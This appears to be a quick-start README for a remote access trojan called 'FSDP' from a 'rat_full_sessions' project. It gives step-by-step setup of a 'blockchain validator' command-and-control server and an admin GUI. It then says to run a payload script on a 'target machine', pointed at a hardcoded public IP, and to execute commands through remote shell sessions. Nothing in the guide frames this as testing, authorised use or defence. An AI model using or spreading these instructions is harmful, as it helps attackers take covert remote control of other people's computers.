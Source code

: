 # FSDP Quick Start - 3 Simple Steps!

## ⚡ Super Easy Setup (No Database, No Node.js!)

### Step 1: Start Validator (1 command)

```cmd
cd rat_full_sessions
python blockchain_validator.py
```

**Note the IP address** shown (e.g., `38.89.139.10:5000`)

---

### Step 2: Start Admin GUI (1 command)

Open a **new terminal/command prompt** and run:

```cmd
cd rat_full_sessions
python admin_gui.py
```

A nice GUI window will open! 🎨

---

### Step 3: Run Payload on Target (1 command)

On your target machine:

```cmd
cd rat_full_sessions\fsdp\test_payloads
python fsdp_payload_enhanced.py
```

**Edit the file first** to set your validator IP:
- Open `fsdp_payload_enhanced.py`
- Find line: `BLOCKCHAIN_NODE = "localhost:5000"`
- Change to: `BLOCKCHAIN_NODE = "38.89.139.10:5000"` (your validator IP)
- Save and run

---

## 🎯 Using the GUI

### Dashboard Tab
- See connected targets count
- View active sessions
- Check blockchain status
- Read activity log

### Targets Tab
1. Click **"Refresh"** to see connected targets
2. Select a target
3. Click **"Open Session"**
4. Done! Session created

### Terminal Tab
1. After opening a session, click **"Create Terminal"**
2. Type commands in the command box
3. Press **Enter** or click **"Execute"**
4. See output in the black terminal window

### Sessions Tab
- View all active sessions
- Close sessions when done

---

## 📝 Example Commands to Try

```bash
# Windows
whoami
dir
ipconfig
systeminfo
echo Hello from FSDP!

# Linux
whoami
ls -la
pwd
uname -a
echo Hello from FSDP!
```

---

## ✨ Features

✅ **No database setup** - Just Python!  
✅ **No Node.js** - Just Python!  
✅ **No web server** - Just Python!  
✅ **Nice GUI** - Built with tkinter (included in Python)  
✅ **Multiple tabs** - Dashboard, Targets, Terminal, Sessions  
✅ **Real-time updates** - Targets discovered automatically  
✅ **Multiple terminals** - Create as many as you need  
✅ **Session management** - Open/close sessions easily  

---

## 🐛 Troubleshooting

### "No targets showing up"
- Wait 30 seconds after starting payload
- Click "Refresh" button in Targets tab
- Check validator is still running
- Check payload has correct validator IP

### "Command not executing"
- Make sure you created a terminal first
- Check session is still active
- Look at the activity log for errors

### "GUI won't start"
- Make sure Python has tkinter: `python -m tkinter`
- On Linux, install: `sudo apt-get install python3-tk`
- On Windows, tkinter is included by default

---

## 🎬 Complete Workflow

```
Terminal 1: python blockchain_validator.py
            (Keep running, note the IP)

Terminal 2: python admin_gui.py
            (GUI opens)

Target Machine: python fsdp_payload_enhanced.py
                (Edit file first with validator IP)

In GUI:
1. Go to "Targets" tab → Click "Refresh"
2. Select your target → Click "Open Session"
3. Go to "Terminal" tab → Click "Create Terminal"
4. Type commands → Press Enter
5. See results in black terminal window!
```

---

## 🚀 That's It!

**No complicated setup. No database. No web server.**

**Just 3 Python scripts and you're controlling remote machines!**

---

## 📸 What You'll See

**Dashboard:**
- Connected Targets: 1
- Active Sessions: 0
- Blockchain Blocks: 3
- Activity log showing all actions

**Targets Tab:**
- Table showing all connected machines
- Hostname, IP, Platform, Status

**Terminal Tab:**
- Black terminal window (like cmd/bash)
- Command input box at bottom
- Execute button
- Real-time output

**Sessions Tab:**
- List of all open sessions
- Session ID, Target, Status, Terminals count

---

**Enjoy your FSDP Admin GUI! 🎉**

